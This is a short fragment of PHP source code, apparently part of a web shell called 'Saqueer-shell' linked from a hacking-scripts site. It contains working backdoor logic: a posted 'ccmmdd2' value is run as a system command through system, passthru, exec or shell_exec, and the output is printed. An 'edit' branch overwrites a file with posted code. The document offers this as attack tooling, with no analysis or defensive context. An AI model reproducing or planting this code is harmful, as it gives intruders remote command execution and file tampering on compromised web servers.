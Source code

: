 		if($_POST[att]=='system')
		{
echo '
					&lt;textarea dir="ltr" name="TextArea1" style="width: 745px; height: 204px"&gt;';
					system($_POST['ccmmdd2']);
echo '					&lt;/textarea&gt;';


		}

		if($_POST[att]=='passthru')
		{
echo '
					&lt;textarea dir="ltr" name="TextArea1" style="width: 745px; height: 204px"&gt;';
					passthru($_POST['ccmmdd2']);
echo '					&lt;/textarea&gt;';


		}

		



		if($_POST[att]=='exec')
		{

echo '					&lt;textarea dir="ltr" name="TextArea1" style="width: 745px; height: 204px"&gt;';
					exec($_POST['ccmmdd2'],$res);
				echo $res = join("\n",$res); 				
echo '					&lt;/textarea&gt;';


		}







		if($_POST[att]=='shell_exec')
		{

echo '					&lt;textarea dir="ltr" name="TextArea1" style="width: 745px; height: 204px"&gt;';
				echo	shell_exec($_POST['ccmmdd2']);
echo '					&lt;/textarea&gt;';


		}
echo '		
		&lt;/td&gt;
	&lt;/tr&gt;
&lt;/table&gt;
';

exit;
}

if($_POST['page']=='edit')
{

$code=@str_replace("\r\n","\n",$_POST['code']);
$code=@str_replace('\\','',$code);
$fp = fopen($pathclass, 'w');
fwrite($fp,"$code");
fclose($fp);
echo "&lt;center&gt;&lt;b&gt;OK Edit&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt;";
exit;
}	


 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png